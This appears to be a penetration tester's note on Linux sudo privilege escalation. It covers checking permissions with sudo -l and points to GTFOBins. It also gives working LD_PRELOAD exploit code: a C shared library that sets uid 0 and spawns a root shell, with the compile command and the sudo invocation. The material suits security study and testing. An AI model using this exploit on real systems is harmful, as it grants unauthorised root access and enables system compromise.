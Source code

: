 **<mark style="background: #FF5582A6;">Introduction</mark>:**

The <mark style="background: #BBFABBA6;">`sudo`</mark> command is a powerful tool that grants users the ability to execute programs with elevated privileges. System administrators often configure it to allow specific users controlled access to privileged operations. Understanding the configuration and potential vulnerabilities in sudo is crucial for penetration testers aiming to escalate privileges on a target system.

**<mark style="background: #FF5582A6;">Checking Sudo Permissions</mark>:**

Use <mark style="background: #BBFABBA6;">`sudo -l`</mark> to examine our current sudo permissions. This command reveals the list of commands a user can execute with elevated privileges. Understanding these permissions is key to identifying potential paths for privilege escalation.

**<mark style="background: #FF5582A6;">Resource for Exploitation</mark>:**

Explore https://gtfobins.github.io/ for comprehensive information on leveraging programs with sudo rights. This resource provides insights into creative ways to exploit various commands and utilities.

**<mark style="background: #FF5582A6;">LD_PRELOAD Exploitation</mark>:**

On systems where the <mark style="background: #BBFABBA6;">`LD_PRELOAD`</mark> environment option is present and the "env_keep" option is enabled, we can create a shared library to execute code before a program runs with sudo. The steps include:

1. Check for LD_PRELOAD.
2. Write a simple C code (e.g., <mark style="background: #BBFABBA6;">`shell.c`</mark>) that spawns a root shell.
3. Compile the C code into a shared object file (<mark style="background: #BBFABBA6;">`shell.so`</mark>) using <mark style="background: #BBFABBA6;">`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`</mark>.
4. Run the target program with sudo and the LD_PRELOAD option pointing to the created .so file.

**<mark style="background: #FF5582A6;">Example C Code (shell.c)</mark>:**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

**<mark style="background: #FF5582A6;">Compilation</mark>:**

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

**<mark style="background: #FF5582A6;">Executing with sudo</mark>:**

```bash
sudo LD_PRELOAD=/path/to/shell.so find
```

This method results in spawning a shell with root privileges, showcasing the potential impact of LD_PRELOAD exploitation for privilege escalation.